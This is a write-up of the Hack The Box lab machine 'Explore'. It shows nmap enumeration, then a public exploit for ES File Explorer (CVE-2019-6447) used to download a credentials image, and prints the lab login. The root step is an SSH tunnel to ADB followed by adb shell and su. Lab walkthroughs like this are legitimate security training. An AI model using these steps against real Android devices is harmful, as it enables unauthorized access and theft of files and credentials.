


# Enumeration

ip

```bash
10.10.10.247
```


## Nmap 

```bash

PORT     STATE    SERVICE VERSION
2222/tcp open     ssh     (protocol 2.0)
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
5555/tcp filtered freeciv
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port2222-TCP:V=7.92%I=7%D=10/30%Time=617D693A%P=x86_64-pc-linux-gnu%r(N
SF:ULL,24,"SSH-2\.0-SSH\x20Server\x20-\x20Banana\x20Studio\r\n");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.68 seconds
```

### Full port scan

```bash

sudo nmap -p- -oA nmap/explore-full-port 10.10.10.247

PORT      STATE    SERVICE
2222/tcp  open     EtherNetIP-1
5555/tcp  filtered freeciv
42135/tcp open     unknown
46335/tcp open     unknown
59777/tcp open     unknown
```

```bash

sudo nmap -sV -sC -p 59777,46335,42135 -oA nmap/explore-ports 10.10.10.247

PORT      STATE SERVICE VERSION
42135/tcp open  http    ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: ES Name Response Server
46335/tcp open  unknown
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 30 Oct 2021 16:31:13 GMT
|     Content-Length: 22
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|   GetRequest: 
|     HTTP/1.1 412 Precondition Failed
|     Date: Sat, 30 Oct 2021 16:31:13 GMT
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.0 501 Not Implemented
|     Date: Sat, 30 Oct 2021 16:31:19 GMT
|     Content-Length: 29
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Method not supported: OPTIONS
|   Help: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 30 Oct 2021 16:31:36 GMT
|     Content-Length: 26
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: HELP
|   RTSPRequest: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 30 Oct 2021 16:31:19 GMT
|     Content-Length: 39
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     valid protocol version: RTSP/1.0
|   SSLSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 30 Oct 2021 16:31:38 GMT
|     Content-Length: 73
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ?G???,???`~?
|     ??{????w????<=?o?
|   TLSSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 30 Oct 2021 16:31:41 GMT
|     Content-Length: 71
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ??random1random2random3random4
|   TerminalServerCookie: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 30 Oct 2021 16:31:38 GMT
|     Content-Length: 54
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|_    Cookie: mstshash=nmap
59777/tcp open  http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).

```

[exploit link](https://www.exploit-db.com/raw/50070) fot port 59777 

# User

Using exploit to download creds image

```bash
[parrot]─[21:56-30/10]─[/home/aju/Hackthebox/machines/explore]
└╼aju$python3 exploit.py getFile  10.10.10.247 /storage/emulated/0/DCIM/creds.jpg

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.
```

rename out.dat

```bash

mv out.dat creds.jpg

```


View image

```bash

xdg-open creds.jpg

```

Found username and password

|User|Password|
|---|-|
|kristi| Kr1sT!5h@Rp3xPl0r3!|

Loggedin as kristi




```bash

ssh kristi@10.10.10.247 -p 2222

```

Forward the port 5555




```bash

ssh -L 5555:127.0.0.1:5555 kristi@10.10.10.247 -p 2222

```


read user.txt

```bash

cat /storage/emulated/0/user.txt

```


# Root

After forwarding the port use adb to connect to the port

```bash

sudo apt-get install adb
#if adb is not installed

adb connect 127.0.0.1:5555

adb 127.0.0.1:5555 shell

su

```

Thats all we rooted the machine and we can find root flag at

```bash

cat /data/root.txt

```